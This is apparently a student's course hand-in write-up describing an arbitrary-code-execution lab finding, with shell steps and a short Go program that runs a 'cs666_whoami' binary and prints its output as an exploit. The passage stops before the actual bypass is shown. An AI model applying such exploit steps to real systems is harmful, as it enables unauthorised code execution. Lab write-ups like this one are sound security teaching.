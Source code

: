 # Arbitary Code Execution (permconf, data exfiltration, path-byp)

- Metadata: ```permconf```
- Data Exfiltration: ```exfil-pi```
- Path Bypass: ```path-byp```

## Discovery

- Change directory into (root): ```cd /```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image5.png){width=50%}
    
- Change directory into (tmp): ```cd tmp```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image8.png){width=50%}

- Run the following command to create a .go file: ```vim cs666_bin.go```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image10.png){width=50%}

- Within the ```cs666_bin.go``` add the following information:
```
package main

import ("os/exec"
        "fmt"
		)
func main() {

	out, err := exec.Command("cs666_whoami").Output()
	
	if err != nil{
		panic(err)
	}
	fmt.Printf("Executing Exploit: %s \n", out)
}

```
- Run the following command to build the .go file:```go build cs666_bin.go```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image12.png){width=50%}
- Run the following command to set the correct permissions on the .go file: ```chmod a-w ./cs666_bin```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image13.png){width=50%}
- Change Directories to: ```cd $HOME```
    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image14.png){width=50%}
- Change Directories to: ```cd ivy-stencil```
   ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-handin/img/hnd_image14.png){width=50%}
